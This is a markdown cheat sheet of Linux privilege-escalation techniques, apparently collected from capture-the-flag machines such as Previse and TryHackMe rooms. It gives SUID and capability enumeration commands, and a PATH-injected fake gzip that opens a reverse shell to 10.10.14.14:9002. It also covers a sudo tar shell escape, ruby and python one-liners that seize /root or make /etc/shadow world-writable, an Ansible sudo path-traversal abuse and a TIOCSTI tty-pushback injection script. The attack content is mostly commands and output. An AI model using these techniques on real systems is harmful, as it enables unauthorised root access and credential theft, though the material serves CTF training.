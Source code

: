 
#### Finding SUID 
```
find / -type f -perm /4000 2>/dev/null
```
or 
```
find / -type f -perm -u=s 2>/dev/null
```


#### Finding GUID 
```
find / -type f -perm /2000 2>/dev/null
```
or 
```
find / -type f -perm -g=s 2>/dev/null
```

#### Finding Capabilities
```
getcap -r / 2>/dev/null
```

#### Find running TCP connections

```bash
netstat -tunlpn
```

res:-
```bash
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:161             0.0.0.0:*                           -                   
udp6       0      0 ::1:161                 :::*                                -                   

```
#### Path Injection With Sudo nopasswd

```
m4lwhere@previse:/tmp$ sudo -l
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

```
m4lwhere@previse:/tmp$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

```
m4lwhere@previse:/tmp$ cat gzip
#!/bin/bash

bash -c "sh -i >& /dev/tcp/10.10.14.14/9002 0>&1"
```

```
m4lwhere@previse:/tmp$ chmod +x gzip
```

```
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
```

```
m4lwhere@previse:/tmp$ sudo -u root /opt/scripts/access_backup.sh
```


####  Privesc with sudo /bin/tar

ref:- https://tryhackme.com/room/cowboyhacker

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

gtfobin:- https://gtfobins.github.io/gtfobins/tar/#sudo

```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# 
```


#### with capabilities ruby 

ref:- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_chown

```
/usr/local/bin/ruby = cap_chown+ep
```
![rubyCapChown.png](Images/rubyCapChown.png)

pass id of user which is 1002 and location and get access to that file
```ruby
ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/root")'
```

```bash
george@empline:/root$ ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/root/root.txt")'
george@empline:/root$ cat root.txt 
74fea7cd0556e9c6f22e6f54bc68f5d5
george@empline:/root$ 
```

python:-
```python
python -c 'import os;os.chmod("/etc/shadow",0666)
```

#### Privesc with sudo Ansible 

```bash
sudo -l
```

![ansiblePrivesc01.png](Images/ansiblePrivesc01.png)

```bash
nano /tmp/a.yml
```

```bash
chmod 777 /tmp/a.yml
```

paste below yml

```yml
---
- hosts: localhost
  tasks:
    - name: Run id                                    
      command: id
      register: id_output  # Register the output of the command

    - name: Display the output of 'id'
      debug:
        var: id_output.stdout  # Print the captured output

```


```bash
sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/a.yml
```

![ansiblePrivesc02.png](Images/ansiblePrivesc02.png)

ref:-
- https://tryhackme.com/r/room/backtrack
- https://youtu.be/FPD3BFv_f_Y?si=Jwof3PkTrzcBqBQY&t=2343

#### Privesc with ttypushback

```bash
./pspy64
```

![ttypushback01.png](Images/ttypushback01.png)

```bash
nano /dev/shm/a.py
```

```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in sys.argv[1] + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

or 

```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in 'ls -la /root >/dev/shm/a.txt;chmod 777 a.txt' + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

![ttypushback02.png](Images/ttypushback02.png)

**(Note:- wait for 1-2 min for cron)**

```bash
ls -la
```
```bash
cat a.txt
```


![ttypushback03.png](Images/ttypushback03.png)

ref:-
- https://tryhackme.com/r/room/backtrack
- https://www.errno.fr/TTYPushback.html
- https://youtu.be/FPD3BFv_f_Y?si=j0MjXQytaRM2WRQe&t=5466